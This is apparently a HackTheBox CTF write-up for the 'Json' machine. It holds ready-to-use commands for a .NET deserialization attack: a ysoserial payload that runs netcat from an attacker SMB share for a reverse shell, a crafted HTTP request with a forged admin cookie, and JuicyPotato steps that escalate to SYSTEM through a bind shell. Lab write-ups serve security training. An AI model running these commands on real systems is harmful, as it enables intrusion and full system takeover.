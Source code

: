 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/sZF9sr32SzE/0.jpg
layout: post
media_subpath: /assets/posts/2020-02-15-json-hackthebox
tags:
- .net
- deserialization
- potato
- seimpersonate
title: Json @ HackTheBox
---
```


Json is a 30-point system on HackTheBox that involves exploiting a .NET deserialization vulnerability and has multiple ways for privilege escalation. You can reverse a binary, exploit ftp or use the juicypotato exploit in order to become SYSTEM.

{% youtube sZF9sr32SzE %}

## Notes

Exploit deserialization vulnerability in bearer header:

```
ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 -c "\\<ip>\xct\nc.exe <lhost> 7000 -e cmd.exe"
```

```
sudo impacket-smbserver xct xct/ -smb2support
nc -lvp 7000
```

```
GET /api/Account/ HTTP/1.1
Host: json.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://json.htb/index.html
Bearer: <ysoserial.net payload>
Connection: close
Cookie: OAuth2=eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=
```

[Juicy potato](https://github.com/ohpe/juicy-potato) (because the system uses windows server 2012 and we have the *SeImpersonate* privilege):

```
copy \\<lhost>\xct\JuicyPotato.exe juicy.exe
copy \\<lhost>\xct\nc.exe nc.exe
echo c:\xct\nc.exe -lvp 2000 -e cmd.exe > juicy.bat

juicy.exe -l 1337 -p c:\xct\juicy.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}

nc json.htb 2000
```